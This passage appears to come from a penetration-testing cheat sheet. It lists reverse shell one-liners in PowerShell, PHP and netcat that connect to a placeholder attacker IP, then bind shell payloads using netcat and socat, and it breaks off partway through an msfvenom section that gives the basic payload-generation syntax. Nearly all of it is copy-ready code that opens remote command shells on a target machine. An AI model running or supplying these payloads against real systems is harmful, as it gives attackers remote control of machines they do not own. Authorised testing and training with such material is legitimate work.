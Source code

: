 **PowerShell (Windows)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ATTACKER-IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**PHP**

```php
php -r '$sock=fsockopen("<ATTACKER-IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Netcat (Traditional)**

```bash
nc -e /bin/sh <ATTACKER-IP> <PORT>  # Linux
nc.exe -e cmd.exe <ATTACKER-IP> <PORT>  # Windows
```

---

**B. Bind Shell Payloads**

**Netcat (Linux)**

```bash
nc -lvnp <PORT> -e /bin/bash
```

**Netcat (Windows)**

```bash
nc.exe -lvnp <PORT> -e cmd.exe
```

**Socat (More Stable)**

```bash
socat TCP-L:<PORT> EXEC:/bin/bash  # Linux
socat TCP-L:<PORT> EXEC:cmd.exe,pipes  # Windows
```

---

### **2. Msfvenom (Metasploit Payload Generator)**

**Msfvenom** is a powerful tool for generating shell payloads in various formats (EXE, Python, PHP, etc.).

**Basic Syntax**

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER-IP> LPORT=<PORT> -f <FORMAT> -o <OUTPUT_FILE>
```

**Common Payloads**
